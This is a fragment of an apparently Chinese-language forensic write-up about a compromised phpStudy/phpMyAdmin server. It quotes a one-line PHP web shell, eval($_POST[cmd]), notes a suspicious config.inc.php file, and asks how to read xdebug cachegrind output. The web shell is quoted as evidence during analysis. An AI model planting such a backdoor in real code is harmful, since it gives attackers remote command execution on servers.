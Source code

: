     <?php
    eval($_POST[cmd]);
    ?>  
    
a href=./config.inc.php，看修改日期后确认是大马。

原先存在相似的文件名称，为：```D:\phpStudy\WWW\MyAdmin\setup\frames\config.inc.php```
<br>
<br>
<br>
*xdebug输出的 cachegrind 文件不知如何分析？不胜赐教！文件内容大同小异，如下：*
<div align="center"><img src="pic/2017-game-cache1.jpg" width="300"/></div>
能看到利用php的操作: